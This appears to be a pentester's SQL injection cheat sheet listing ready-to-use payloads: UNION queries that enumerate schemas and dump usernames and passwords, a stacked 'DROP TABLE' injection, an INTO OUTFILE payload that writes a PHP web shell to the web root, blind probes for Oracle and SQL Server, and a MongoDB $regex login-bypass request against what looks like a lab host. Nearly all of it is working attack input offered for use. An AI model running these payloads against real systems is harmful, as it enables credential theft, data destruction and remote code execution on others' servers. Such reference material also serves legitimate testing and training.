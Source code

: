 # SQL Injection

[HOME](../index.html) / [Web](./)

## The basics

How an example of unsecure sql statement looks like:

```
$SQL = "SELECT * FROM {tablename} WHERE {username} = ' + $_POST["username"] + ' AND ' + $_POST['password']'";
```

To break the statement:

```
$SQL = "SELECT * FROM {tablename} WHERE {username} = ' + 1' OR 1+1-- + ' AND ' + $_POST['password']'";
```

Order by:

```
=1 order by 1
=1 order by 2
=1 order by 3
.
.
.
Until error occurs, then:
=1 union all select 1, 2, 3...
=1 union all select 1, 2, column_name from information_schema.columns where table_name='users'
=1 union all select 1, username, password from users

' union select 1,2,3,concat(schema_name, ':') from information_schema.schemata-- -    # db name
' union select 1,2,3,concat(table_name, ':') from information_schema.tables where table_schema = '[DB_NAME]'-- -   # table name
' union select 1,2,3,concat(column_name, ':') from information_schema.columns where table_name = '[TABLE_NAME]'-- -   # column name
' union select 1,2,3,concat(id, ':', name, ':', email, ':', password) from user-- -   # column content
```

### Simple SQL injection test

```
'
1' OR 1+1--
\'
```

### Stacked injection; Where table name is known

```
1'; DROP TABLE {tablename} --
```

### Where column name is known

```
1'; ALTER TABLE {tablename} ALTER COLUMN {columnname} {datatype} --
1' UNION SELECT {columnname} FROM {tablename};--
1' UNION ALL SELECT {columnname} FROM {tablename};--
```

\\

## Blind injection

Apply in URL

```
www.example.com/xxx.php?id=1 or 1=1
```

## RCE with UNION

```
123' UNION SELECT '<?php echo system("ls -la /");?>','2','3','4','5' into outfile '/var/www/html/shell.php'#
```

## Oracle DB

```
' UNION SELECT table_name,null,null FROM all_tables--
' UNION SELECT  column_name,null,null FROM all_tab_columns WHERE table_name=''--
' UNION SELECT [col1],[col2],null FROM [table]--
' AND (SELECT COUNT(global_name) FROM global_name)=19 AND 'AdhT'='AdhT    # number of rows
' AND (SELECT LENGTH(global_name) FROM global_name)=8 AND 'AdhT'='AdhT    # word count
' AND SUBSTRC((SELECT global_name FROM global_name),1,1)=65 AND 'AdhT'='AdhT    # Ascii decode
```

## Microsoft SQL Server

```
' OR LEN(CURRENT_USER)='3
' OR SUBSTRING(CURRENT_USER,1,3)='DBO
' OR LEN(db_name())=13;--
' OR SUBSTRING(db_name(),1,5)='xxxxx';--
```

## NodeJS / MongoDB

```
POST /login HTTP/1.1
Host: 10.10.11.139:5000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/json
Content-Length: 43
Origin: http://10.10.11.139:5000
Connection: close
Referer: http://10.10.11.139:5000/login
Upgrade-Insecure-Requests: 1

{"user":"admin","password":{"$regex":"^A"}}    # bruteforce password start with A
```
